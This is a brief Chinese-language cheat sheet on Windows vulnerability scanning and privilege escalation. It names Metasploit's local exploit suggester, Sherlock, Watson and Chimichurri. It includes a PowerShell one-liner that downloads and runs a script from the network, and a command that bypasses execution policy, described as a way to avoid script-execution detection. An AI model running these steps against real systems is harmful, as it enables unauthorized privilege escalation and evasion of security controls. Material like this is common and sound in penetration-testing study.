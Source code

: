 # windows漏洞扫描与提权

## 漏洞扫描

- 使用msf

```
use post/multi/recon/local_exploit_suggester
```

- 脚本 [Sherlock](https://github.com/mxrmiss/Sherlock)

```
初步使用本地加载脚本

Import-Module Sherlock.ps1

远程加载脚本

IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')


在不触发脚本执行检测的情况下运行Sherlock

powershell -ExecutionPolicy Bypass -File Sherlock.ps1
```

- 脚本 [Watson](https://github.com/mxrmiss/Watson)



## 提权

- 脚本 [Chimichurri](https://github.com/mxrmiss/Chimichurri)